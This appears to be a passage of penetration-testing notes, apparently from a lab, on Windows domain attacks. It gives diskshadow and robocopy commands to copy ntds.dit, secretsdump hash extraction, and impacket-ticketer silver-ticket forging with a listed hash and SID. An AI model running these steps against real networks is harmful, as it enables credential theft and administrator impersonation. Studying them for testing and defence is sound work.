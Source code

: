 Create a file called `diskshadow.txt`
```
set verbose on  
set metadata C:\Windows\Temp\meta.cab  
set context clientaccessible  
set context persistent  
begin backup  
add volume C: alias cdrive  
create  
expose %cdrive% E:  
end backup
```

Edit the file so its properly parsed by diskshadow and upload it:

```
unix2dos diskshadow.txt
```

Launch diskshadow:

```
diskshadow /s diskshadow.txt
robocopy /b E:\Windows\ntds . ntds.dit
```

Extract hashes:

```
impacket-secretsdump -security SECURITY.save -ntds ntds.dit LOCAL
```

### Silver Ticket

```
impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
```

Create Environmental Variable:
```
export KRB5CCNAME=$PWD/Administrator.ccache
```

Configure /etc/krb5user.conf and add the KDC and domain name to the DC IP in /etc/hosts ( if you are acessing a speciifc port using a port forward you can do the same to 127.0.0.1):

```
[libdefaults]  
        default_realm = NAGOYA-INDUSTRIES.COM  
        kdc_timesync = 1  
        ccache_type = 4  
        forwardable = true  
        proxiable = true  
    rdns = false  
    dns_canonicalize_hostname = false  
        fcc-mit-ticketflags = true  
  
[realms]          
        NAGOYA-INDUSTRIES.COM = {  
                kdc = nagoya.nagoya-industries.com  
        }  
  
[domain_realm]  
        .nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```
